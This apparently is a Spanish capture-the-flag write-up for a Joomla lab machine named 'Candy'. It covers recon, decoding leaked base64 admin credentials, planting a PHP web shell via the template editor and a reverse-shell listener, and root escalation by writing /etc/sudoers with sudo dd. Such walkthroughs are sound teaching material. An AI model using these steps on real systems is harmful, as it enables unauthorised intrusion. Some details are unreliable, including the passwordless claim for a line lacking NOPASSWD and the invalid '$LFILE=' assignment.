


# Candy

*80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))*
*|http-generator: Joomla! - Open Source Content Management*
*|_http-server-header: Apache/2.4.58 (Ubuntu)*
*| http-robots.txt: 17 disallowed entries (15 shown)*
*| /joomla/administrator/ /administrator/ /api/ /bin/*
*| /cache/ /cli/ /components/ /includes/ /installation/*
*|/language/ /layouts/ /un_caramelo /libraries/ /logs/ /modules/*

De primeras se nos da info acerca de un robots.php con una serie de direcciones que deberían estar deshabilitadas.

En la dirección /un_caramelo encuentor en el F12 unas credenciales:

```text
Creds admin:c2FubHVpczEyMzQ1
```

Accedemos al panel de administración -> no nos deja

Está en base64
**sanluis12345**

Conseguimos entrar en el panel de administración
Objetivo -> es encontrar una forma de acceder al servidor o buscar una vulnerabilidad de ejecución remota de código (RCE)
En system -> Site Templates -> Cassiopeia Details and Files
Aquí, podríamos explorar opciones para modificar o cargar archivos



Subimos un archivo *sh3ll.php*, nos ponemos a la escucha con *nc* y escribimos en la url
*http://172.17.0.2/templates/cassiopeia/sh3ll.php*
**www-data**

## Escalada

sudo -> nada
perm -> nada
ps -> nada



Intentando hacer
`mysql -h localhost -u luisillo -p`
no podemos entrar al user mysql

Probando a acceder al usuario luisillo con `su luisillo` y poniendo la contraseña
**luisillosuperpassword** conseguimos entrar el usuario luisillo
**luisillo**

*(ALL) NOPASSWD: /bin/dd*
`$LFILE=/etc/sudoers`
`echo "luisillo ALL=(ALL:ALL) ALL" | sudo dd of=$LFILE
Con esto se consigue escribir en el archivo sudoers que el usuario *luisillo* pueda ejecutar cualquier comando como cualquier usuario del sistema sin necesidad de contraseña
`sudo su`
**root**
